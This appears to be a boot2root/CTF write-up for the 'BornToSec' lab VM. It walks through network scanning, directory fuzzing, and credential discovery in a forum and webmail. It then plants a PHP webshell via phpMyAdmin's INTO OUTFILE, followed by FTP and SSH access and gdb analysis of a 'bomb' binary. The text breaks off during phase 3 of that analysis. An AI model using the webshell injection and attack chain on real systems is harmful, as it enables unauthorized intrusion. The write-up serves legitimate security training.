









# Writeup 1 - Raiders of the Lost Ark

## Index:

- [1. Find the IP address](#1-find-the-ip-address)
- [1.1 Finding the IP address on campus](#11-finding-the-ip-address-on-campus)
- [2. Recognition of services](#2-recognition-of-services)
- [3. Explore the web server](#3-explore-the-web-server)
- [4. Fuzzing access paths](#4-fuzzing-access-paths)
- [5. Exploring the forum](#5-exploring-the-forum)
- [6. Logging into the forum](#6-logging-into-the-forum)
- [7. Log in to phpMyAdmin](#7-log-in-to-phpmyadmin)
- [8. SSH access as laurie](#8-ssh-access-as-laurie)
- [9. Binary Analysis and Passwords Exploit](#9-binary-analysis-and-passwords-exploit)
- [10. We execute the bomb binary](#10-we-execute-the-bomb-binary)
- [11. SSH access as Thor](#11-ssh-access-as-thor)
- [12. Python Draw](#12-python-draw)
- [13. Acceso SSH como zaz](#13-acceso-ssh-como-zaz)
- [14. Calculate the offset](#14-calculate-the-offset)
- [15. Build the payload](#15-build-the-payload)
- [16. Writeup 1 Conclusion](#16-writeup-1-conclusion)


## Exploitation

## 1. Find the IP address

> Please note that this section may vary depending on your network configuration.

We list the VM that is running on the host:
```bash
VBoxManage list runningvms
"boot2root" {656d8bc0-eeee-4e29-93b6-574bfd23da96}
```

We tried to get it to show us the network configuration but it returned nothing:
```bash
VBoxManage showvminfo boot2root | grep -i network
```

So we tried to view the configured network adapters and found a key piece of information: `Attachment: Bridged Interface 'wlo1'`:

```bash
VBoxManage showvminfo "boot2root" | grep -i "nic\|nat\|bridge\|host"
CPUProfile:                  host
NIC 1:                       MAC: 0800275EB507, Attachment: Bridged Interface 'wlo1', Cable connected: on, Trace: off (file: none), Type: 82540EM, Reported speed: 0 Mbps, Boot priority: 0, Promisc Policy: deny, Bandwidth group: none
NIC 2:                       disabled
NIC 3:                       disabled
NIC 4:                       disabled
NIC 5:                       disabled
NIC 6:                       disabled
NIC 7:                       disabled
NIC 8:                       disabled
Name: 'vmbox_share', Host path: '/home/davgalle/Escritorio/VM_TRANSFER' (global mapping), writable, auto-mount, mount-point: '/media/sf_vmbox_share'
    Destination:             File
```

`wlo1` is our `WiFi` interface. With `Bridged`, the VM is on the same network as our host. That means it has an IP address in the same range as us.

We use the command `ip addr show wlo1` and separate everything we need:
```bash
ip addr show wlo1
3: wlo1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether dc:fb:48:d1:41:79 brd ff:ff:ff:ff:ff:ff
    altname wlp0s20f3
    inet 192.168.0.19/24 brd 192.168.0.255 scope global dynamic noprefixroute wlo1
       valid_lft 80384sec preferred_lft 80384sec
    inet6 fe80::f34f:7e0b:28ca:96a5/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

```text
Our IP:      192.168.0.19
Range:       192.168.0.0/24 
```

The VM is in the same range. Since we don't have `nmap` on campus, we use a bash function to scan the IPs:
```bash
 for i in {1..254}; do 
  (ping -c 1 -W 1 192.168.0.$i | grep "from" | cut -d " " -f 4 | tr -d ":" &) 
done; wait
192.168.0.1             ←  // router
192.168.0.12
192.168.0.19            ←  // Our IP
192.168.0.25
192.168.0.17
192.168.0.26
192.168.0.27
192.168.0.30
192.168.0.10
```
We discarded the IPs `192.168.0.19` and `192.168.0.1`, which are ours and the router's. We created a function in `bash` to scan the remaining IPs for open ports, and this returned the IP `192.168.0.30`, which has several open ports:

```bash
for ip in 10 12 17 25 26 27 30; do
    echo "--- IP 192.168.0.$ip ---"
    for port in 21 22 25 80 443 3306; do
        (timeout 0.5 bash -c "echo > /dev/tcp/192.168.0.$ip/$port" 2>/dev/null) && echo "[+] Port $port open"
    done
done
--- IP 192.168.0.10 ---
--- IP 192.168.0.12 ---
--- IP 192.168.0.17 ---
--- IP 192.168.0.25 ---
--- IP 192.168.0.26 ---
[+] Port 443 open
--- IP 192.168.0.27 ---
[+] Port 443 open
--- IP 192.168.0.30 ---
[+] Port 21 open
[+] Port 22 open
[+] Port 80 open
[+] Port 443 open
```

## 1.1 Finding the IP address on campus

The campus network is `10.12.0.0/16`. We first obtain the VM's MAC address:

```bash
VBoxManage showvminfo "boot2root" | grep -i "mac"
NIC 1: MAC: 0800278C3C22, Attachment: Bridged Interface 'enp4s0f0'
```

The MAC address `0800278C3C22` is formatted with a colon: `08:00:27:8c:3c:22`.

The boot2root VMs in Madrid are always in the `10.12.200.x` range. We scanned this range, searching for the VM by its MAC address in the ARP table:

```bash
for i in {1..254}; do
  bash -c "echo > /dev/tcp/10.12.200.$i/22" 2>/dev/null
  result=$(arp -n | grep "08:00:27:8c:3c:22")
  if [ -n "$result" ]; then
    echo "VM found: $result"
    break
  fi
done
VM found: 10.12.200.13    ether   08:00:27:8c:3c:22   C   enp4s0f0
```

The IP address of the VM on campus is `10.12.200.13`.

## 2. Recognition of services

With the identified IP address, we explore the services available on the open ports:

**Puerto 80 — HTTP:**
```bash
curl -I http://192.168.0.30
HTTP/1.1 200 OK
Server: Apache/2.2.22 (Ubuntu)
Last-Modified: Wed, 07 Oct 2015 23:37:54 GMT
Content-Type: text/html
```

The web server is **Apache 2.2.22** running on **Ubuntu**.

**Puerto 22 — SSH:**
```bash
nc -vn 192.168.0.30 22
Connection to 192.168.0.30 22 port [tcp/*] succeeded!
SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.7
```

The SSH version is **OpenSSH 5.9p1** — an older version with known potential vulnerabilities.

**Port 22 — Banner SSH:**
```bash
ssh -p 22 192.168.0.30
The authenticity of host '192.168.0.30 (192.168.0.30)' can't be established.
ECDSA key fingerprint is SHA256:d5T03f+nYmKY3NWZAinFBqIMEK1U0if222A1JeR8lYE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '192.168.0.30' (ECDSA) to the list of known hosts.
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
davgalle@192.168.0.30's password: 
```

The server is asking for credentials that we don't yet have.

**Server Summary:**

| Port | Service | Version |
| --- | --- | --- |
| 21 | FTP | ? |
| 22 | SSH | OpenSSH 5.9p1 |
| 80 | HTTP | Apache 2.2.22 |
| 443 | HTTPS | Apache 2.2.22 |

## 3. Explore the web server

We explored `https` in the terminal and received `404 Not Found`. It seems something is configured, but it can't find the root resource.
```bash
davgalle@davgalle-Latitude-5400:~/Documents/RNCP7/boot2root$ curl -kI https://192.168.0.30
HTTP/1.1 404 Not Found
Date: Thu, 23 Apr 2026 16:56:19 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=iso-8859-1
```

We explored `http` in the browser and found a seemingly empty "coming soon" page:


We explored the source code of `http` looking for **hidden directories** and found nothing out of the ordinary. The **links are real**.   
```bash
 curl http://192.168.0.30
<!DOCTYPE html>
<html>
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
	<title>Hack me if you can</title>
	<meta name='description' content='Simple and clean HTML coming soon / under construction page'/>
	<meta name='keywords' content='coming soon, html, html5, css3, css, under construction'/>	
	<link rel="stylesheet" href="style.css" type="text/css" media="screen, projection" />
	<link href='http://fonts.googleapis.com/css?family=Coustard' rel='stylesheet' type='text/css'>

</head>
<body>
	<div id="wrapper">
		<h1>Hack me</h1>
		<h2>We're Coming Soon</h2>
		<p>We're wetting our shirts to launch the website.<br />
		In the mean time, you can connect with us trought</p>
		<p><a href="https://fr-fr.facebook.com/42Born2Code"></a> <a href="https://plus.google.com/+42Frborn2code"></a> <a href="https://twitter.com/42born2code"></a></p>
	</div>
</body>
</html>
```

Since we know the server is Apache, there are some files and directories in Apache that exist by default or are very common on any web server:

- `robots.txt` — tells search engines what not to index
- `sitemap.xml` — site map
- `.htaccess` — Apache configuration file
- `server-status` — server status

We tried all of them on ports `80` and `443` and didn't find any important information except for one detail:

- `curl http://192.168.0.30/.htaccess` -> Returns `403`
- `curl -k https://192.168.0.30/.htaccess` -> Returns `404`

```bash
curl http://192.168.0.30/.htaccess
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess
on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 192.168.0.30 Port 80</address>
</body></html>
```
```bash
curl -k https://192.168.0.30/.htaccess
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /.htaccess was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 192.168.0.30 Port 443</address>
</body></html>
```

This variation means that the configuration in `HTTPS` is different from `HTTP`.

Self-signed SSL certificates sometimes reveal domain names, emails, or server information in the following fields:

```bash
openssl s_client -connect 192.168.0.30:443 2>/dev/null | openssl x509 -noout -text | grep Subject
Subject: CN = BornToSec
Subject Public Key Info:
```
The SSL certificate is **self-signed** and reveals the name `CN = BornToSec` —
the same name that appears in the VM's login prompt. This suggests that there is a virtual host configured with that name in Apache.

Without access to `/etc/hosts` on campus, we pass the `Host` header directly using `curl` to force resolution of the virtual host:

```bash
curl -k -H "Host: BornToSec" https://192.168.0.30/
HTTP/1.1 404 Not Found
address>Apache/2.2.22 (Ubuntu) Server at borntosec Port 443
```

The server responds as `borntosec` (lowercase) — confirming that the virtual host exists. We tried the same common files but without success.

**Final Summary of the Reconnaissance:**

| Port | Service | Version | Notes |
| --- | --- | --- | --- |
| 21 | FTP | vsftpd | Anonymous configured but with permissions error |
| 22 | SSH | OpenSSH 5.9p1 | Older version — asks for credentials |
| 80 | HTTP | Apache 2.2.22 | "Coming soon" page — `.htaccess` exists (403) |
| 443 | HTTPS | Apache 2.2.22 | Virtual host `borntosec` — self-signed certificate |


## 4. Fuzzing access paths

Once the reconnaissance is complete, we explore the directories without the `dirb` command because it's not installed on campus. We create a bash script with the most common website directories.

The most common wordlists are located in `/usr/share/wordlists/` in Kali or similar systems.

First, we scan for HTTP:

```bash
for dir in admin login wp-admin phpmyadmin forum blog uploads files backup webmail tmp test; do
    code=$(curl -s -o /dev/null -w "%{http_code}" http://192.168.0.30/$dir/)
    echo "$code http://192.168.0.30/$dir/"
done
404 http://192.168.0.30/admin/
404 http://192.168.0.30/login/
404 http://192.168.0.30/wp-admin/
404 http://192.168.0.30/phpmyadmin/
403 http://192.168.0.30/forum/        ← It exists but it's blocked.
404 http://192.168.0.30/blog/
404 http://192.168.0.30/uploads/
404 http://192.168.0.30/files/
404 http://192.168.0.30/backup/
404 http://192.168.0.30/webmail/
404 http://192.168.0.30/tmp/
404 http://192.168.0.30/test/
```

We discovered that the VM is a Linux server with several services, and that the `/forum/` directory returns `403` on HTTP—it exists but is blocked.

We repeated the scan on `HTTPS`:

```bash
for dir in admin login wp-admin phpmyadmin forum blog uploads files backup webmail tmp test; do
    code=$(curl -sk -o /dev/null -w "%{http_code}" https://192.168.0.30/$dir/)
    echo "$code https://192.168.0.30/$dir/"
done
404 https://192.168.0.30/admin/
404 https://192.168.0.30/login/
404 https://192.168.0.30/wp-admin/
200 https://192.168.0.30/phpmyadmin/  ← database panel
200 https://192.168.0.30/forum/       ← accessible forum
404 https://192.168.0.30/blog/
404 https://192.168.0.30/uploads/
404 https://192.168.0.30/files/
404 https://192.168.0.30/backup/
302 https://192.168.0.30/webmail/     ← redirection to email client
404 https://192.168.0.30/tmp/
404 https://192.168.0.30/test/
```

We discovered three services accessible via HTTPS:

| Directory | Code | Service |
| --- | --- | --- |
| `/forum/` | 200 | Foro **"my little forum 2.3.4"** |
| `/webmail/` | 302 | Webmail client (SquirrelMail) |
| `/phpmyadmin/` | 200 | Database administration panel |

We tested it in the browser `https://192.168.0.30/forum/`, it shows us the forum page and we see that we can extract very important information.



## 5. Exploring the forum

The forum is **"my little forum 2.3.4"**. We read and see that the number of registered users is the same as the number of visible names on the forum. This is very valuable information:

**6 registered users:**

| User | Rol |
| --- | --- |
| `admin` | Admin |
| `lmezard` | User |
| `qudevide` | User |
| `zaz` | User |
| `wandre` | User |
| `thor` | User |

**Threads posted:**

| ID | Tittle | Autor |
| --- | --- | --- |
| 1 | Welcome to this new Forum ! | `admin` |
| 6 | Probleme login ? | `lmezard` |
| 4 | Gasolina | `qudevide` |
| 2 | Les mouettes ! | `wandre` |

The most interesting thread is **"Login Problem?"** posted by `lmezard`. It may contain credentials or login clues.

After reviewing the entire **"Login Problem?"** thread, we found a login error log, which appears to be the typical error where the user entered the password `!q\]Ej?*5K5cy*AJ` in the username field.

## 6. Logging into the forum

And further down, the user `lmezard` logs in successfully:



We tried logging into the blog in the browser with the credentials we found:




And we're in!!!


Looking through the user's profile, we discovered their email address, `laurie@borntosec.net`. And with that information, we discovered two things:



- The real name of `lmezard` is `Laurie`
- The domain is `borntosec.net` (which matches the borntosec virtual host we found earlier)

Now that we have their email account, let's try logging into `webmail`.
```text
https://192.168.0.30/webmail
```





The account only has a couple of emails, and we'll open the one with "Subject: DB Access" directly.

Inside that email, we'll find the credentials to access the database.

```text
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

- Username: root
- Password: Fg-'kKXBj87E:aJ$

## 7. Log in to phpMyAdmin

We access `phpmyadmin` which is located at the address `https://192.168.0.30/phpmyadmin/` as we saw in the directory search:




We're going to try opening a shell in the VM by injecting a new PHP page into the forum, so that it can execute all the commands we pass it.

## **These are the steps we followed:**

- [7.1 Injecting a webshell](#71-injecting-a-webshell)
- [7.2 Access the terminal as www-data](#72-access-the-terminal-as-www-data)
- [7.3 FTP Access](#73-ftp-access)
- [7.4 Reassemble TAR file](#74-reassemble-tar-file)
- [7.5 We cross-reference data](#75-we-cross-reference-data)

### 7.1 Injecting a webshell

We use `phpMyAdmin` to write a `PHP` file directly to the server using `SQL`.

From the `phpMyAdmin` home page, go to the `SQL` tab and run this command:
```bash
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```




The file has been created and we can access it:

```bash
curl -k "https://192.168.0.30/forum/templates_c/shell.php?cmd=whoami"
www-data
```

### 7.2 Access the terminal as www-data

We have command execution on the server like `www-data`. Now we explore the file system for useful information:

```bash
curl -k "https://192.168.0.30/forum/templates_c/shell.php?cmd=ls+/home/"
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz
```

We are inside the `LOOKATME` directory which shows us the `password` file:
```bash
curl -k "https://192.168.0.30/forum/templates_c/shell.php?cmd=ls+/home/LOOKATME"
password
```

We use `cat` to prevent it from showing that it contains the file:
```bash
curl -k "https://192.168.0.30/forum/templates_c/shell.php?cmd=cat+/home/LOOKATME/password"
lmezard:G!@M6f4Eatau{sF"
```

- User: lmezard
- Password: G!@M6f4Eatau{sF"

### 7.3 FTP Access

The file `/home/LOOKATME/password` contains credentials in the format **`username:password`**.

The username is `lmezard` — the same as the forum user.

We tested these credentials on the FTP server because it was the only service we hadn't yet explored with credentials and that we knew was active **(port 21 open from the start)**.

```bash
ftp 192.168.0.30
Connected to 192.168.0.30.
220 Welcome on this server
Name (192.168.0.30:davgalle): lmezard
331 Please specify the password.
Password: G!@M6f4Eatau{sF"
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41477|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
```

We found two files — `README` and `fun`. We downloaded them with `get`:

```bash
ftp> get README
ftp> get fun
ftp> quit
```

The `README` gives us the instructions for the next step:

```bash
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

The file `fun` is a `TAR` archive containing 751 jumbled snippets of C code. These snippets must be reassembled in order to obtain the password for `laurie`.

### 7.4 Reassemble TAR file

Each fragment has a file number in the comment `//fileN`.

The `main()` function calls `getme1()` through `getme12()` and then says **"Now SHA-256 it and submit"**.

We can see some values ​​in the file:

```bash
getme1()  → file5   → char getme1() {  → search for the return
getme2()  → file414 → char getme2() {  → search for the return
getme4()  → file66  → char getme4() {  → search for the return
getme5()  → file633 → char getme5() {  → search for the return
getme6()  → file91  → char getme6() {  → search for the return
getme7()  → file366 → char getme7() {  → search for the return
getme8()  → 'w'
getme9()  → 'n'
getme10() → 'a'
getme11() → 'g'
getme12() → 'e'
```

And we also have some visible **returns**:

```bash
file38  → ZPY1Q.pcap → return 'h'   ← getme?
file617 → T44J5.pcap → return 'p'   ← getme?
file429 → 7DT5Q.pcap → return 'a'   ← getme?
file406 → T7VV0.pcap → return 'r'   ← getme?
file23  → J5LKW.pcap → return 't'   ← getme?
file371 → ECOW1.pcap → return 'e'   ← getme?
file86  → APM1E.pcap → return 'I'   ← getme?
```

We extract the file and look for the missing `getme` files:
```bash
tar xf fun
grep -r "return" ft_fun/ | grep -v "useless\|printf"
ft_fun/BJPCP.pcap:	return 'w';
ft_fun/BJPCP.pcap:	return 'n';
ft_fun/BJPCP.pcap:	return 'a';
ft_fun/BJPCP.pcap:	return 'g';
ft_fun/BJPCP.pcap:	return 'e';
ft_fun/7DT5Q.pcap:	return 'a';
ft_fun/ECOW1.pcap:	return 'e';
ft_fun/ZPY1Q.pcap:	return 'h';
ft_fun/APM1E.pcap:	return 'I';
ft_fun/T44J5.pcap:	return 'p';
ft_fun/J5LKW.pcap:	return 't';
ft_fun/T7VV0.pcap:	return 'r';
```

Now that we have all the returns, we need to assign them to the correct functions by finding which `getme` corresponds to each file:
```bash
grep -r "getme" ft_fun/ | grep -v "useless\|printf" 
ft_fun/BJPCP.pcap:char getme8() {
ft_fun/BJPCP.pcap:char getme9() {
ft_fun/BJPCP.pcap:char getme10() {
ft_fun/BJPCP.pcap:char getme11() {
ft_fun/BJPCP.pcap:char getme12()
ft_fun/G7Y8I.pcap:char getme2() {
ft_fun/4KAOH.pcap:char getme5() {
ft_fun/331ZU.pcap:char getme1() {
ft_fun/91CD0.pcap:char getme6() {
ft_fun/32O0M.pcap:char getme7() {
ft_fun/B62N4.pcap:char getme3() {
ft_fun/0T16C.pcap:char getme4() {
```

### 7.5 We cross-reference data

Each `getme` statement is in one file, and the `return` statement is in the next file (the code is fragmented). We look for the return statement that follows each `getme` statement:
```bash
grep -A2 "getme1\b" ft_fun/331ZU.pcap
grep -A2 "getme2\b" ft_fun/G7Y8I.pcap
grep -A2 "getme3\b" ft_fun/B62N4.pcap
grep -A2 "getme4\b" ft_fun/0T16C.pcap
grep -A2 "getme5\b" ft_fun/4KAOH.pcap
grep -A2 "getme6\b" ft_fun/91CD0.pcap
grep -A2 "getme7\b" ft_fun/32O0M.pcap
char getme1() {

//file5
char getme2() {

//file37
char getme3() {

//file56
char getme4() {

//file115
char getme5() {

//file368
char getme6() {

//file521
char getme7() {

//file736

```

We see that each `getme` is incomplete. Therefore, the `return` is in the file with the following number.

We search for files by file number:
```bash
grep -r "//file6$" ft_fun/
grep -r "//file38$" ft_fun/
grep -r "//file57$" ft_fun/
grep -r "//file116$" ft_fun/
grep -r "//file369$" ft_fun/
grep -r "//file522$" ft_fun/
grep -r "//file737$" ft_fun/
ft_fun/APM1E.pcap://file6
ft_fun/ZPY1Q.pcap://file38
ft_fun/ECOW1.pcap://file57
ft_fun/7DT5Q.pcap://file116
ft_fun/T7VV0.pcap://file369
ft_fun/J5LKW.pcap://file522
ft_fun/T44J5.pcap://file737
```

And now we can cross-reference all the data:
```bash
getme1()  → file5  → siguiente es file6  → APM1E.pcap  → return 'I'
getme2()  → file37 → siguiente es file38 → ZPY1Q.pcap  → return 'h'
getme3()  → file56 → siguiente es file57 → ECOW1.pcap  → return 'e'
getme4()  → file115→ siguiente es file116→ 7DT5Q.pcap  → return 'a'
getme5()  → file368→ siguiente es file369→ T7VV0.pcap  → return 'r'
getme6()  → file521→ siguiente es file522→ J5LKW.pcap  → return 't'
getme7()  → file736→ siguiente es file737→ T44J5.pcap  → return 'p'
getme8()  → BJPCP.pcap → return 'w'
getme9()  → BJPCP.pcap → return 'n'
getme10() → BJPCP.pcap → return 'a'
getme11() → BJPCP.pcap → return 'g'
getme12() → BJPCP.pcap → return 'e'
```

**The password is:**
- Iheartpwnage

The `main()` says **"Now SHA-256 it and submit"**. We calculate:
```bash
 echo -n "Iheartpwnage" | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```


## 8. SSH access as laurie

We use the username and password to access the VM via SSH:

```bash
ssh laurie@192.168.0.30
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.0.30's password: 
laurie@BornToSecHackMe:~$ whoami
laurie
laurie@BornToSecHackMe:~$ 
```

Once we are inside, we list the `home`
```bash
laurie@BornToSecHackMe:~$ ls -la
total 37
drwxr-x--- 1 laurie   laurie    60 Oct 15  2015 .
drwxrwx--x 1 www-data root      80 Oct 13  2015 ..
-rwxr-x--- 1 laurie   laurie    20 Apr 23 23:58 .bash_history
-rwxr-x--- 1 laurie   laurie   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 laurie   laurie  3489 Oct 13  2015 .bashrc
-rwxr-x--- 1 laurie   laurie 26943 Oct  8  2015 bomb
drwx------ 2 laurie   laurie    43 Oct 15  2015 .cache
-rwxr-x--- 1 laurie   laurie   675 Oct  8  2015 .profile
-rwxr-x--- 1 laurie   laurie   158 Oct  8  2015 README
-rw------- 1 laurie   laurie   606 Oct 13  2015 .viminfo
```

We read the `README` file and run `bomb` which gives us clues about what we need to do:
```bash
laurie@BornToSecHackMe:~$ ./bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
```
### **Bomb Instructions:**
- The `bomb` binary consists of 6 stages
- Each stage requires a password to access the next stage
- If we enter an incorrect password, it will trigger the bomb.

```bash
laurie@BornToSecHackMe:~$ cat README 
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```
### **README Clues:**

Once you have all the passwords, use them as the user `thor` with `ssh`.

The letters and numbers in the README are partial clues that are confirmed after analyzing each stage of the binary with GDB:

- `P` → Stage 1 accepts a phrase that begins with `P`
- `2` → Stage 2 accepts a sequence containing the number `2`
- `b` → Stage 3 has a solution containing the letter `b`
- `o` → Stage 5 has a solution containing the letter `o`
- `4` → Stage 4 accepts a number related to `4`

**Reminder:**

The subject line reads:

`"For the part related to a (bin) bomb: If the password found is 123456, the password to use is 123546."`.

In other words, you need to swap the last two characters of the final password.

## 9. Binary Analysis and Passwords Exploit

We disassembled it with GDB and listed the functions:
```bash
laurie@BornToSecHackMe:~$ gdb ./bomb
(gdb) info functions 
All defined functions:

File bomb.c:
int main(int, char **);

Non-debugging symbols:
...
0x08048b20  phase_1
0x08048b48  phase_2
0x08048b98  phase_3
0x08048ca0  func4
0x08048ce0  phase_4
0x08048d2c  phase_5
0x08048d98  phase_6
0x08048e94  fun7
0x08048ee8  secret_phase
...
```

1. We begin by disassembling the `phase_1` function and find that at address `0x80497c0` there is a string that matches the beginning of the first track `"Public speaking is very easy."`:

```asm
(gdb) disas phase_1
Dump of assembler code for function phase_1:
   0x08048b20 <+0>:     push   ebp
   0x08048b21 <+1>:	    mov    ebp,esp
   0x08048b23 <+3>:	    sub    esp,0x8
   0x08048b26 <+6>:	    mov    eax,DWORD PTR [ebp+0x8]
   0x08048b29 <+9>:	    add    esp,0xfffffff8
   0x08048b2c <+12>:	push   0x80497c0    ←   0x80497c0:	 "Public speaking is very easy."
   0x08048b31 <+17>:	push   eax
   0x08048b32 <+18>:	call   0x8049030 <strings_not_equal>
   0x08048b37 <+23>:	add    esp,0x10
   0x08048b3a <+26>:	test   eax,eax
   0x08048b3c <+28>:	je     0x8048b43 <phase_1+35>
   0x08048b3e <+30>:	call   0x80494fc <explode_bomb>
   0x08048b43 <+35>:	mov    esp,ebp
   0x08048b45 <+37>:	pop    ebp
   0x08048b46 <+38>:	ret    
End of assembler dump.

(gdb) x/s 0x80497c0
0x80497c0:	 "Public speaking is very easy."
```
### **`Password Phase 1: Public speaking is very easy.`**

2. The disassembly analysis of the `phase_2` function tells us that the return type is an `int()`:

- It reads 6 numbers.
- It verifies that the first one must be 1.
- Each subsequent number is the previous number multiplied by (i+1).

```asm
(gdb) disas phase_2
Dump of assembler code for function phase_2:
   0x08048b48 <+0>:	    push   ebp
   0x08048b49 <+1>:	    mov    ebp,esp
   0x08048b4b <+3>:	    sub    esp,0x20
   0x08048b4e <+6>:	    push   esi
   0x08048b4f <+7>:	    push   ebx
   0x08048b50 <+8>:	    mov    edx,DWORD PTR [ebp+0x8]
   0x08048b53 <+11>:	add    esp,0xfffffff8
   0x08048b56 <+14>:	lea    eax,[ebp-0x18]
   0x08048b59 <+17>:	push   eax
   0x08048b5a <+18>:	push   edx
   0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
   0x08048b60 <+24>:	add    esp,0x10
   0x08048b63 <+27>:	cmp    DWORD PTR [ebp-0x18],0x1
   0x08048b67 <+31>:	je     0x8048b6e <phase_2+38>
   0x08048b69 <+33>:	call   0x80494fc <explode_bomb>
   0x08048b6e <+38>:	mov    ebx,0x1
   0x08048b73 <+43>:	lea    esi,[ebp-0x18]
   0x08048b76 <+46>:	lea    eax,[ebx+0x1]
   0x08048b79 <+49>:	imul   eax,DWORD PTR [esi+ebx*4-0x4]
   0x08048b7e <+54>:	cmp    DWORD PTR [esi+ebx*4],eax
   0x08048b81 <+57>:	je     0x8048b88 <phase_2+64>
   0x08048b83 <+59>:	call   0x80494fc <explode_bomb>
   0x08048b88 <+64>:	inc    ebx
   0x08048b89 <+65>:	cmp    ebx,0x5
   0x08048b8c <+68>:	jle    0x8048b76 <phase_2+46>
   0x08048b8e <+70>:	lea    esp,[ebp-0x28]
   0x08048b91 <+73>:	pop    ebx
   0x08048b92 <+74>:	pop    esi
   0x08048b93 <+75>:	mov    esp,ebp
   0x08048b95 <+77>:	pop    ebp
   0x08048b96 <+78>:	ret    
End of assembler dump.
```
```asm
(gdb) ptype phase_2
type = int ()
```
### **Lines 0 - 78:**
```text
1. <+0>: Saves the value of `EBP` (cpu) `[esp + 0x00]` to the top of the stack. `ESP` is shifted down 4 bytes.
2. <+1>: Assigns the new `ESP` to `EBP` for the `phase_2` function.
3. <+3>: Allocates (shifts) `32 bytes` (0x20) on the `phase_2()` stack.
4. <+6>: Saves the `ESI` register to the stack — the compiler preserves it because it will use it internally.
5. <+7>: Saves the `EBX` register to the stack — same applies.
6. <+8>: Loads the `phase_2()` argument into `EDX` — the string entered by the user starting from `[ebp+0x8]`.
7. <+11>: Adjusts the stack to pass the arguments to `read_six_numbers()`.
8. <+14>: Calculates the address of `[ebp-0x18]` — the local array of 6 integers — and loads it into `EAX`.
9. <+17>: Pushes the array address as an argument to `read_six_numbers()`.
10. <+18>: Pushes the user string as an argument to `read_six_numbers()`.
11. <+19>: Calls `read_six_numbers(input, array)` — parses the user string and fills the array with 6 integers.
12. <+24>: Resets the stack.
13. <+27>: Compares the first element of the array `[ebp-0x18]` with `1`.
14. <+31>: `je` — if the first number is `1`, continue. Otherwise, jump to `<+33>`.
15. <+33>: Call `explode_bomb()` — the first number must be `1`.
16. <+38>: Initialize the `EBX` counter to `1` — beginning of the loop.
17. <+43>: Load the base address of the array into `ESI`.
18. <+46>: Calculate `EBX + 1` in `EAX` — the multiplier for the current iteration.
19. <+49>: Multiply `EAX` by the previous element of the array `[esi+ebx*4-0x4]` — calculate the expected value.
20. <+54>: Compare the current element of the array `[esi+ebx*4]` with the expected value. 21. <+57>: `je` — if they are equal, continue. Otherwise, jump to `<+59>`.
22. <+59>: Call `explode_bomb()` — the number is not the expected one.
23. <+64>: Increment the `EBX` counter.
24. <+65>: Compare `EBX` with `5`.
25. <+68>: `jle` — if `EBX <= 5`, return to `<+46>` for the next iteration.
26. <+70>: Restore `ESP`.
27. <+73>: Restore `EBX`.
28. <+74>: Restore `ESI`.
29. <+75>: Restore `ESP` from `EBP`.
30. <+77>: Restore `EBP`.
31. <+78>: `ret` — returns control to the caller.
```

The loop verifies that each number is the previous number multiplied by (i+1):
```bash
array[0] = 1
array[1] = 1 * 2 = 2
array[2] = 2 * 3 = 6
array[3] = 6 * 4 = 24
array[4] = 24 * 5 = 120
array[5] = 120 * 6 = 720
```

It matches clue 2 of the README.
### **`Password Phase 2: 1 2 6 24 120 720`**

3. In the analysis of the `phase_3` function, the format `"%d %c %d"` tells us that the function expects 3 values: **number, character, number**.
```
(gdb) x/s 0x80497de
0x80497de:	 "%d %c %d"
```

- The switch/case has 8 options (0-7). Looking for **clue b in the README** — there are three cases with bl=0x62 which is b in ASCII:
```asm
0x08048c16 <+126>:	mov    bl,0x62
0x08048c76 <+222>:	mov    bl,0x62
0x08048c00 <+104>:	mov    bl,0x62
```
- There's a jump table in the `<+62>` command.
- `eax` is the first number entered.
- Each case of the switch assigns a value to `bl` (the character) and compares the third number to a fixed value.
```asm
0x08048bd6 <+62>:	jmp    DWORD PTR [eax*4+0x80497e8]
```
- We look for what's in the jump table at address `0x80497e8`:
```
(gdb) x/8wx 0x80497e8
